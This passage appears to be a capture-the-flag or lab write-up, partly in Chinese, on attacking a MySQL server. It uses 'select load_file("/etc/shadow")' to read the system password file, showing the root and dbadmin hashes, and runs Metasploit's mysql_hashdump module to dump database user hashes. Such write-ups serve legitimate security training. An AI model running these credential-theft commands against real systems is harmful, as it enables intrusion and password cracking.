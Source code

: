 Find the system password hash for user "root".

`S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/`

```
MySQL [(none)]> select load_file("/etc/shadow");

root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::
daemon:*:17850:0:99999:7:::
bin:*:17850:0:99999:7:::
sys:*:17850:0:99999:7:::
sync:*:17850:0:99999:7:::
games:*:17850:0:99999:7:::
man:*:17850:0:99999:7:::
lp:*:17850:0:99999:7:::
mail:*:17850:0:99999:7:::
news:*:17850:0:99999:7:::
uucp:*:17850:0:99999:7:::
proxy:*:17850:0:99999:7:::
www-data:*:17850:0:99999:7:::
backup:*:17850:0:99999:7:::
list:*:17850:0:99999:7:::
irc:*:17850:0:99999:7:::
gnats:*:17850:0:99999:7:::
nobody:*:17850:0:99999:7:::
libuuid:!:17850:0:99999:7:::
syslog:*:17850:0:99999:7:::
mysql:!:17857:0:99999:7:::
dbadmin:$6$vZ3Fv3x6$qdB/lOAC1EtlKEC2H8h5f7t33j65WDbHHV50jloFkxFBeQC8QkdbQKpHEp/BkVMQD2C2AFPkYW3.W7jMlMbl5.:17861:0:99999:7:::
```

How many database users are present on the database server? Lists their names and password hashes.

[MYSQL Password Hashdump](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_hashdump/)

MYSQL 密码哈希转储

该模块从 MySQL 服务器中提取用户名和加密密码哈希并将它们存储起来以供以后破解。

```
msf5 auxiliary(scanner/mysql/mysql_file_enum) > use auxiliary/scanner/mysql/mysql_hashdump
msf5 auxiliary(scanner/mysql/mysql_hashdump) > show options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS    192.41.63.3      yes       The target address range or CIDR identifier
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads
   USERNAME                   no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 192.41.63.3:3306      - Saving HashString as Loot: root:
[+] 192.41.63.3:3306      - Saving HashString as Loot: root:
[+] 192.41.63.3:3306      - Saving HashString as Loot: root:
[+] 192.41.63.3:3306      - Saving HashString as Loot: root:
[+] 192.41.63.3:3306      - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.41.63.3:3306      - Saving HashString as Loot: root:
```